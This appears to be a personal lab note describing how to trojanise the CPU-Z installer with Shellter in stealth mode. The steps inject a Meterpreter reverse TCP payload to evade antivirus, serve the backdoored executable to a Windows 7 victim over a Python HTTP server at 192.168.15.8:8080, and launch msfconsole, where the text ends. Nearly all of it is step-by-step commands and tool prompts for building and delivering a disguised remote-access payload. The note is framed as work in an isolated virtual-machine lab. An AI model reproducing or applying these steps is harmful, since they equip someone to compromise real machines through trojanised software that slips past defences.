 #topic Metasploit and Shellter

Using Kali Linux for attacking and Windows 7 as a Victim

---
## 2025-08-17
**Set-up:**  
- Install shellter and wine 32 on Kali Linux.
- Install cupz on Kali Linux so we can add a meterpreter reverse tcp payload in it.

**Managing the downloaded file :** 
```
cd Desktop
mkdir av-bypass
cp /home/kali/Downloads/cpu-z_1.96-en.exe av-bypass
cd av-bypass
ls
mv cpu-z_1.96-en.exe cpuz.exe
ls
```

**Adding the payload:**
```
sudo shellter
A (automatic)
PE target: /home/kali/Desktop/av-bypass/cpuz.exe
Enable stealth mode: Y
Use a listed payload or custom? : L
Choose Meterpreter_Reverse_TCP
SET LHOSTS: (ifconfig to check on kali)
SET LPORT: 4321 (remember the port and you can add any port you like, this one is just for example)
...
Injection : Verified!

```

Sharing the file using the HTTP server:
```
(its possible only because both the VMs are on the same NAT network)
(On kali)
`python -m http.server 8080` 

(On Windows)
the IP of kali machine followed by the port no. on the windows browser. 
**192.168.15.8:8080** 
navigate the injected file on the server
```

Using Metasploit:
```
(On kali)
msfconsole

```